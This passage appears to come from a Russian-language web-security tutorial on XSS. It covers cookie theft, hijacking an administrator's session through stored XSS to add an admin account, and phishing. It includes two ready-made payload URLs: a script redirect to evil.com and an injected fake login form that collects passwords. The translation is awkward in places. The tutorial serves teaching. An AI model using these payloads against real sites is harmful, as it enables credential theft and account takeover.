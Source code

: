 После того, как злоумышленник получит файлы cookie, он может войти в учетную запись жертвы, изменив файлы cookie
локального браузера.

### Захват сеанса

Из-за определенных недостатков безопасности при использовании файлов cookie разработчики начали использовать более
безопасные методы аутентификации, такие как сеанс. В механизме сеанса клиент и сервер используют идентификаторы для
идентификации пользователей и поддержания сеанса, но этот идентификатор также может использоваться другими. Суть
перехвата сеанса состоит в том, чтобы задействовать файлы cookie и отправить их на сервер.

Например, в системе сообщений CMS хранится уязвимость XSS. Злоумышленник записывает код XSS в сообщение сообщения. Когда
администратор входит в фоновый режим и проверяет Да, срабатывает XSS-уязвимость. Поскольку XSS запускается в фоновом
режиме, целью атаки является администратор. Внедряя код JavaScript, злоумышленник может захватить сеанс администратора
для выполнения определенных операций, тем самым достигнув цели повышения разрешений.

Например, если злоумышленник хочет использовать XSS для добавления учетной записи администратора, ему нужно только
использовать предыдущий аудит кода или другие методы для перехвата информации HTTP-запроса при добавлении учетной записи
администратора, а затем использовать объект XMLHTTP для отправки HTTP запрос в фоновом режиме. Запрос сопровождается
файлами cookie атакуемого и отправляется на сервер вместе, после чего может быть реализована операция добавления учетной
записи администратора.

### Фишинг

- Перенаправить фишинг

    Перенаправить текущую страницу на фишинговую.
    
    ```text
    http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
    ```

- HTML-инъекция фишинга

    Используйте уязвимости XSS для внедрения кода HTML или JavaScript на страницу.
    
    ```text
    http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center; "><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password :<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/> </form></div></body></html>
    ```
    
    Этот код встроит форму в обычную страницу.
